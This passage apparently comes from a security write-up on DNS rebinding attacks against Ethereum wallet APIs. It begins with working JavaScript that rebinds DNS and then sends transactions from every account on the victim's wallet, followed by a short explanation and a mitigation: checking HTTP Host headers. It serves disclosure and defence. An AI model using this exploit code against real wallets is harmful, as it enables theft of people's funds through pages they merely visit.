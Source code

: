 ```javascript
  web3.eth.sendTransaction(txn, function(err, result) {
    if (!err) {
      log("transaction succeeded with result -> " + result);
    } else {
      log("transaction failed with error -> " + err);
    }
  });
}

function takeEth() {
  log("getting account list...");
  var accounts = web3.eth.accounts;
  for (var i = 0; i < accounts.length; i++) {
    takeEthFrom(accounts[i]);
  }
}

function sayGoodbye() {
  log("rebinding dns...");
  $.ajax({
    type: 'GET',
    url: '/goodbye',
    success: function(data, status, xhr) {
      initW3();
      takeEth();
    },
    error: function (data, status, error) {
      log("xhr /goodbye failed, status -> " + status + " error -> " + error);
    }
  });
}

sayGoodbye();
```

## What Just Happened?
We gained control of a victim's Ethereum wallet simply by getting them to visit `http://rhodey.org`, bypassing any NAT or firewall they had in place.

## Mitigation
Mitigating DNS Rebinding vulnerabilities is very simple: **always check HTTP Host headers**. The HTTP requests that hit the victim wallet API have the host header set to `eth.rhodey.org` signaling that something is very obviously not right.

Ethereum has already done a bit to lock down the most powerful API capabilities, namely anything to do with constructing or sending a transaction. Now to send a transaction one must *"unlock"* the wallet with their password and specify the duration of time they wish the wallet to remain unlocked. Sneaking an API call in while the wallet is unlocked is difficult but definitely not impossible, especially if you hide this attack in an advertisement or browser extension. Note that wallet locking protection does nothing to prevent de-anonymizing or spying on account balances.
